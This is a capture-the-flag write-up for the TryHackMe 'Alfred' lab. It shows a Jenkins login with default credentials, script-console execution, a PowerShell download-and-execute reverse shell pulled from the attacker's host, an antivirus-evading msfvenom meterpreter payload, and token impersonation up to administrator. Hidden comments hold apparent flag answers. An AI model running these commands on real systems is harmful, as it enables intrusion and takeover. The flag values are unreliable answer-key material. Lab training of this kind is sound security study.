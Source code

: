 # <div align='center'>[Alfred](https://tryhackme.com/room/alfred)</div>
<div align='center'>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.</div>
<div align='center'>
  <img src='https://github.com/user-attachments/assets/335a1059-b792-4edc-a5e2-ea767b35e798' height='200'></img>
</div>

# Step 1: Recconance 
```
:~$ nmap -sV 10.10.219.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 20:35 IST
Nmap scan report for 10.10.219.84
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
1. The scan shows there are 3 ports open
* `80` with web service.
* `3389` useless
* `8080` jenkins running

The port number 80 as default let take a look

![image](https://github.com/user-attachments/assets/7483aad4-dbc8-4c4c-b387-ae7b2848ea25)

find nothing usefull here 

2. As the Jenkins version is outdated let take a look at it

![image](https://github.com/user-attachments/assets/84cdf8d0-1e7e-4d29-9853-e5010f586658)

Okay let try default credentials `admin:admin`

![image](https://github.com/user-attachments/assets/a53f02a6-4d96-4c6f-94ca-ea4b7376ead0)

bingo ! im genious


# Step 2: Exploitation
After Scrollig for long i found a this in `Manage Jenkins` > There is `Script Console`

![image](https://github.com/user-attachments/assets/4a883914-a503-4df8-b551-98415f9cc72b)

After wasting some time i understand the:

let swape cmd and take a look at `C:` drive:

```
cmd = "cmd.exe /c dir"
println cmd.execute().text
```

![image](https://github.com/user-attachments/assets/08208f34-aedc-4bf8-b079-79792292dfb5)

We got some data Now can cast a reverse shell here but 1st we need a reverse shell 
```
git clone https://github.com/samratashok/nishang
```

Go to this directory 
```
cd nishang/Shells/
```

Now we need to pull our revrse shell from our system and place and execute that into target system for doing that in `Shell` directory open a python server to pull the reverse shell form it:
```
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/ec758bd2-d1b0-4211-8d65-cf8fcf5eafc7)

Now Set up a `Netcat` listner on differet port:
```
nc -lnvp 1234
```
For reverse connection

Now we need to download this reverse shell into traget system
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-Listner-port"
println cmd.execute()
```

Like this:
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.14.127:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.14.127 -Port 1234"
println cmd.execute()
```

Got the Connection 

![image](https://github.com/user-attachments/assets/9e6bc915-db95-4347-bcd8-d57eeb0c8c3e)

# Step 3: Post Exploitation

## User flag.txt
```
cat 'C:\Users\bruce\Desktop\user.txt'
```
<!-- 79007a09481963edf2e1321abd9ae2a0 -->
![image](https://github.com/user-attachments/assets/d78864b1-d5c9-46fc-a42c-bec8cfbff9f8)


## Switching Shells
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-test.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

Start Msfconsole
```
msfconsole -q
```
Start A TCP reverse Handler for connection
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp
```
Set Lhost
```
set LHOST your-thm-ip set
```
Set Lport
```
LPORT 5555
```
Start the Listner
```
run
```

First We need to download the our Payload in the Enemy system for doing that open new terminal where your playload is created in my case it `/home/user`
```
python3 -m http.server
```

Download using this command on cmd
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

![image](https://github.com/user-attachments/assets/4408c39f-2e4b-4662-abd9-33f0291d7937)

Let executt it
```
Start-Process "shell-test.exe"
```
![image](https://github.com/user-attachments/assets/ec6fbbcd-504b-4557-86e0-e49ed71d4b73)

Now Let Swape shell
```
shell
```
![image](https://github.com/user-attachments/assets/f52a258f-15aa-4005-b744-567a4465c22a)

Let Check for privillage
```
whoami /prive
```
![image](https://github.com/user-attachments/assets/c873e060-900e-4642-b150-32b0005d4af6)

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

Enter: `load incognito` to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.
```
load incognito
```
Press `ctrl`+`c` to exit shell and back to meterpreter

Let see which tokens are available
```
list_tokens -g
```
![image](https://github.com/user-attachments/assets/580e84f2-ddf3-4c5c-a265-50404dd99b3e)

We can see that the BUILTIN\Administrators token is available.

Let  impersonate the Administrators' token:
```
impersonate_token "BUILTIN\Administrators"
```

![image](https://github.com/user-attachments/assets/15dfdeb9-451f-4199-84b2-ab173774e818)

## Root Flag.txt

Let Migrate our permissions

to migrate check the running process

![image](https://github.com/user-attachments/assets/0ee6b838-9ec2-434e-aa7a-81c4f56eeb4b)

Let migrate to this service
```
migrate PID-OF-PROCESS
```
![image](https://github.com/user-attachments/assets/c1b0fc0a-a1f4-4769-8e52-1bf3016fda1f)

View Our Flag
```
type 'C:\Windows\System32\config\root.txt'
```

![image](https://github.com/user-attachments/assets/609af3d5-7e0b-43b4-a689-640cbde2695e)
<!!-- dff0f748678f280250f25a45b8046b4a -->
